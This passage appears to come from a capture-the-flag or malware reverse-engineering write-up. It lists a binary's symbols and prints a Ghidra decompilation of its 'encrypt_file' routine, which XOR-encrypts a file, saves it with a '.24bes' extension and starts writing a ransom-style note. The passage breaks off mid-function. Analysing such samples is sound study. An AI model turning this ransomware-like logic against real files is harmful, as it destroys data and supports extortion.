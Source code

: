 ```text
_IO_stdin_used
readdir@GLIBC_2.2.5
malloc@GLIBC_2.2.5
_end
fseek@GLIBC_2.2.5
__bss_start
main
encrypt_file
process_directory
fopen@GLIBC_2.2.5
fwrite@GLIBC_2.2.5
__TMC_END__
_ITM_registerTMCloneTable
__cxa_finalize@GLIBC_2.2.5
_init
strstr@GLIBC_2.2.5
```

We discovered an interesting function named `encrypt_file`. Let's decompile the binary and look at the function's source code using `ghidra`.

encrypt_file
```c
void encrypt_file(char *param_1,char *param_2)

{
  byte bVar1;
  ulong uVar2;
  int iVar3;
  size_t sVar4;
  char local_848 [1024];
  char local_448 [1032];
  FILE *local_40;
  void *local_38;
  size_t local_30;
  FILE *local_28;
  ulong local_20;
  
  local_28 = fopen(param_1,"rb");
  if (local_28 == (FILE *)0x0) {
    printf("Error opening file: %s\n",param_1);
  }
  else {
    fseek(local_28,0,2);
    local_30 = ftell(local_28);
    rewind(local_28);
    local_38 = malloc(local_30);
    fread(local_38,1,local_30,local_28);
    fclose(local_28);
    for (local_20 = 0; uVar2 = local_20, (long)local_20 < (long)local_30; local_20 = local_20 + 1) {
      bVar1 = *(byte *)((long)local_38 + local_20);
      sVar4 = strlen(param_2);
      *(byte *)((long)local_38 + local_20) = bVar1 ^ param_2[uVar2 % sVar4];
    }
    snprintf(local_448,0x400,"%s.24bes",param_1);
    local_28 = fopen(local_448,"wb");
    fwrite(local_38,1,local_30,local_28);
    fclose(local_28);
    free(local_38);
    snprintf(local_848,0x400,"%s_note.txt",local_448);
    local_40 = fopen(local_848,"w");
    if (local_40 == (FILE *)0x0) {
      printf("Error creating note file: %s\n",local_848);
```